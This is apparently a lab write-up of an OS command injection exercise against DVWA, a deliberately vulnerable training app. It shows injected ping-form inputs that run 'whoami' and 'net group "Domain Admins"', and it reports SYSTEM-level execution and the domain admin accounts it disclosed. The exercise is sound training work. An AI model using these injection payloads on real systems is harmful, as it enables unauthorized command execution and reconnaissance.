







# Command Injection Scenario – Part 2: Attacker

**Target:** DVWA on `sadeg.com` (Windows Server, Apache)
**Technique:** OS Command Injection (MITRE T1059)

## 1. Login to DVWA

## 2. Home Page

## 3. Open Command Injection Module

The "Ping a device" form passes the IP address directly to the OS `ping` command.

## 4. Test Injection – whoami

Input: `127.0.0.1 | whoami`

Result: the command runs as **nt authority\system**, confirming the injection works with high privileges.

## 5. Enumerate Domain Admins

Input: `127.0.0.1 | net group "Domain Admins"`

Result: command executed successfully, returning the Domain Admins group members (`Administrator`, `svc_backup`).

## Summary

| Step | Payload | Result |
|---|---|---|
| 1 | `127.0.0.1 \| whoami` | nt authority\system |
| 2 | `127.0.0.1 \| net group "Domain Admins"` | Group members disclosed |
